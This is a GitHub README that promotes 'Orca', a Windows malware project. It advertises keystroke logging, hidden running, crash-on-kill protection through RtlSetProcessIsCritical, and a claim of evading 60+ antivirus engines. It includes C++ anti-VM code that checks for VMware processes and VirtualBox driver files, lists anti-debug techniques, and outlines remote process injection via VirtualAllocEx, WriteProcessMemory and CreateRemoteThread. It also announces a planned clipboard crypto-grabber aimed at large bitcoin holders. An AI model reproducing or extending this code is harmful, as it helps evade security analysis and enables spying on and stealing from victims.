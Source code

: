 
# About Orca

* Orca is an Advanced Malware with multifeatures written in ASM/C/C++ 

# features
* Run in Background (Hidden Mode)

* Records keystrokes and saves them in a file .

### Anti-Task manager kill using RtlSetProcessIsCritical

* RtlSetProcessIsCritical used to protect the process from termination , any attempt to terminate it will cause the system to crash :(

<br>
<img src="https://github.com/walczy/Skinjbir/blob/main/r2.jpg"></img>
<br>

* Undectable  (60+ Antivirus )

<br>
<img src="https://github.com/walczy/Skinjbir/blob/main/r1.JPG"></img>
<br>

### Detecting Virtual Environment Files and Processes
* Code Snippets
* the following Function will search for VMware Processes

```cpp
void antiVm()
{
	const char* arr[] = { "vmtoolsd.exe","vmwaretray.exe","vmwareuser.exe" ,"VGAuthService.exe" ,"vmacthlp.exe" };
	for (int i = 0; i < strlen(*arr); i++)
	{
		if (GetPID(arr[i]))
			exit(EXIT_FAILURE);
	}
}
```
* the following Function will search for VirtualBox Files

```cpp
void antiVr() {
	if  (IsExist("C:\\windows\\System32\\vboxoglpackspu.dll"))exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxSF.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxVideo.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglpassthroughspu.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxdisp.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxhook.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxmrxnp.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxogl.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglcrutil.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxGuest.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglerrorspu.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglfeedbackspu.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxMouse.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglarrayspu.dll")) exit(EXIT_FAILURE);
}
```



### Anti-Debug
* the Malware will self close 'Silently' anytime detect a debugger or being debugged!! [AntiDBG Library](https://github.com/HackOvert/AntiDBG) 
-  The techniques that used to Detect debuggers :
```  
  - Memory
  - CPU
  - Timing
  - Forced Exceptions
  ```
# Process Injection

* [Process Injection](https://github.com/ZeroM3m0ry/Shellcode-Injector) It is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process’s memory, system/network resources, and possibly elevated privileges. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process.
* 
![Alt Text](https://github.com/ZeroM3m0ry/Orca/blob/main/pe-injection.gif)


### TECHNICAL DETAILS

* Open process with Access Rights
* LPTHREAD_START_ROUTINE (its a pointer to the application-defined function of type LPTHREAD_START_ROUTINE to be executed by the thread and represents the starting address of the thread in the remote process. The function must exist in the remote process.)
* VirtualAllocEx (used to allocate space from the target process virtual memory)
* WriteProcessMemory (used to write the path of the shellcode into the allocated memory)
* CreateRemoteThread (used to creates a thread in the virtual memory area of a process)

### More Advanced features will  be added soon like :

* 🔥 Crypto Grabber( technique used to steal crypto by manipulating  in clipboard ) i will add special update so you can target big holders ,eg the malware will work only when the victim is gonna transfer specific amount of bitcoin in ``` specific wallet``` (like >400 bitcoin)  ...

# Disclaimer
* I take no responsibility for Harmful using or any damage can make. Use it at your own risk.

